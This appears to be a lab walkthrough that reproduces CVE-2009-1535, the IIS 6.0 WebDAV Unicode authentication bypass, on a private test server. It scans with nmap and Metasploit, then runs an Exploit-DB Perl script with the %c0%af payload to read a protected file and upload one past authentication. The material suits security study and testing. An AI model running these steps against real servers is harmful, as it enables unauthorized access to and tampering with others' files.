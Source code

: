 
CVE-2009-1535  |  IIS 6.0 WebDAV Unicode Authentication Bypass

Part 1: https://www.youtube.com/watch?v=DRxaEvuwQbA

Part 2: https://www.youtube.com/watch?v=mz8DlKZyXTk

--------------

IIS 6.0 WebDAV Unicode Authentication Bypass

CVE-2009-1535

https://www.cvedetails.com/cve/CVE-2009-1535/

https://www.rapid7.com/db/modules/auxiliary/scanner/http/dir_webdav_unicode_bypass

--------------

### Part 1 

1. On Server 2003 machine, create the following folder structure:

C:\demo1\demo11\secret111.txt
C:\demo2\demo22\secret222.txt

2. Enable WebDAV...

Default Web Site > New > Virtual Directory > Alias => intranet1
Default Web Site > New > Virtual Directory > Alias => intranet2

Web Site Properties > Home Directory > Read + Write + Directory browsing 
		    > Directory Security > Authentication Method > only Windows Authenticated Users can access this 

3. Testing authentication method

Try to access the website/file on victim machine
http://192.168.50.3/intranet1/demo1/demo11/secret111.txt

Try to access the website/file from Kali machine
http://192.168.50.3/intranet2/demo2/demo22/secret222.txt

4. Use the following scripts to check the vulnerability

Option 1: using Nmap

> nmap --script http-iis-webdav-vuln -p 80 192.168.50.3

Need to add "intranet1" + "intranet2" manually into the dictionary file

> nmap --script http-iis-webdav-vuln --script-args=webdavfolder=intranet1 -p 80 192.168.50.3
> nmap --script http-iis-webdav-vuln --script-args=webdavfolder=intranet2 -p 80 192.168.50.3

Option 2: using Metasploit module

msf> use auxiliary/scanner/http/dir_webdav_unicode_bypass

Need to add "intranet1" + "intranet2" manually into the dictionary file

> echo intranet1 >> /usr/share/metasploit-framework/data/wmap/wmap_dirs.txt
> echo intranet2 >> /usr/share/metasploit-framework/data/wmap/wmap_dirs.txt

Why does Directory traversal attack %C0%AF work?

https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work

### Part 2 

5. Exploit

https://www.exploit-db.com/exploits/8806/

perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af

> path

Copy XML content to temp.html > open with Web browser

perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af/demo1/demo11/secret111.txt

> source

perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af/demo1/demo11/secret111.txt

> put  =>  /root/pm.txt

Try to access that file from local/remote machine (my_file.txt)

http://192.168.50.3/intranet1/demo1/demo11/my_file.txt

